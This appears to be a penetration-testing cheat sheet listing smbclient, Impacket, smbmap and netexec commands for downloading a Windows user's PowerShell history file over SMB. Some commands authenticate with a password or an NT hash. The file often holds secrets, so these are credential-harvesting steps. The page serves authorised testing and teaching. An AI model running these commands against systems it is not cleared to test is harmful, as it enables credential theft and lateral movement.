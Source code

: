 # Unix Shell

smbclient

smbclient.py

smbmap

netexec

## 01 - Samba Suite Utils

```
smb: \> more /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt

smb: \> get /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt
```

## 02 - Impacket

```
$ smbclient.py

$ smbclient.py
```

Retrieve text file.

```
# get Users\<username>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt
```

## 03 - SMBMap

```
$ smbmap -u "<username>" -p "<password | nt_hash>" [-d <domain>] -H <IP> --download "C$\Users\<username>\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt"
```

## 04 - NetExec

```
$ netexec smb -u "<username>" -p "<password>" [-d <domain_name> | --local-auth] --get-file /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt powershell_history.txt

$ netexec smb -u "<username>" -H "<nt_hash>" [-d <domain_name> | --local-auth] --get-file /Users/<username>/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt powershell_history.txt
```